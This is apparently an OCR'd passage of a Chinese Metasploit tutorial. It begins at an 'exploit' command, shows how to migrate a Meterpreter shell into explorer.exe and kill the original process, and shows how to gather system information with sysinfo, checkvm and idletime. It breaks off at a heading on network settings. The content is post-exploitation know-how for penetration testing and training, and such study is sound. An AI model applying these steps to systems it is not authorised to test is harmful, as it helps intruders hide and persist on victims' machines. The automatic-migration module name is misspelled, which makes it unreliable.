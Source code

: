攻击：

```
exploit
```

## 进程迁移

### 手动迁移

在获得的Meterpreter Shell中获取目标机正在运行的进程：

```
ps
```

查看当前进程PID：

```
getpid
```

例如当前Meterpreter Shell进程PID为984，Explorer.exe进程PID为448，则迁移：

```
migrate 448
```

一般原进程会自动关闭，如果没有自动关闭可手动：

```
kill 984
```

### 自动迁移

```
run post/windows/manage/mirgrate
```

## 系统信息收集

查看系统信息，如操作系统，体系结构：

```
sysinfo
```

检查目标机是否运行在虚拟机上：

```
run post/windows/gather/checkvm
```

检查目标机最近运行时间：

```
idletime
```

查看完整的网络设置：
